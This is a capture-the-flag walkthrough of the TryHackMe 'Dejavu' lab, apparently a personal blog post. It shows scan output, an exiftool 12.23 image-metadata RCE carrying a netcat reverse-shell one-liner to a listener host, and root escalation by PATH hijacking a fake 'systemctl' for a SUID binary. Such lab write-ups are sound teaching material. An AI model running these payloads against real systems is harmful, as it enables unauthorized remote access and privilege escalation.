






Hello everyone,

Today we are going to solve Dejavu room from tryhackme. we will see about exiftool RCE and privilege escalation with PATH variable and systemctl SUID.


<!--truncate-->

## Nmap results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 30:0f:38:8d:3b:be:67:f3:e0:ca:eb:1c:93:ad:15:86 (RSA)
|   256 46:09:66:2b:1f:d1:b9:3c:d7:e1:73:0f:2f:33:4f:74 (ECDSA)
|_  256 a8:43:0e:d2:c1:a9:d1:14:e0:95:31:a1:62:94:ed:44 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Dog Gallery!
```

## Gobuster results

```bash
===============================================================
/favicon.ico          (Status: 200) [Size: 21665]
/index.html           (Status: 301) [Size: 0] [--> ./]
/upload               (Status: 301) [Size: 0] [--> upload/]
===============================================================
```

## Enumration

--> I found this page on port `80`



--> And when we click on any photo then it redirects us to `/dog/getexifdata` and for caption and title it was using `/dog/getmetadata` path which i found from burpsuite.

--> Also i found the version of `exiftool` from response from `getexifdata` route



--> So i searched for `exiftool version 12.23 exploit` and found [this](https://github.com/OneSecCyber/JPEG_RCE "https://github.com/OneSecCyber/JPEG_RCE") repo which describes the exploit in detail

So i added the reverse shell in the image file using exiftool

```bash
exiftool -config eval.config runme.jpg -eval='system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.10 4444 >/tmp/f")'
```

--> After that i went to `/upload/` where we can upload our image so i uploaded my payload and started the netcat listener on port `4444`



Now let's just click on the uploaded image to let the server see the exifdata of image and we can get the reverse shell.

And boom i got the reverse shell!



## Privesc

--> This file contains one SUID binary called `serverManager`. when we run that binary it asks for input from `0` or `1`

```
0 -	Get server status
1 -	Restart server
```

--> so here it's restarting the server means it must be running as root SUID binary. so we can use this as privesc factor.

So let's see the source code provided with it.



--> I found that it's using `systemctl` so let's change the path variable for that and get the root shell!

So follow these commands:

```
echo "/bin/bash -p" > systemctl
chmod 777 systemctl
export PATH=.:$PATH
```

And now if you run the `serverManager` binary and select `0` then you will get root shell!!

--> And we pwned the machine!


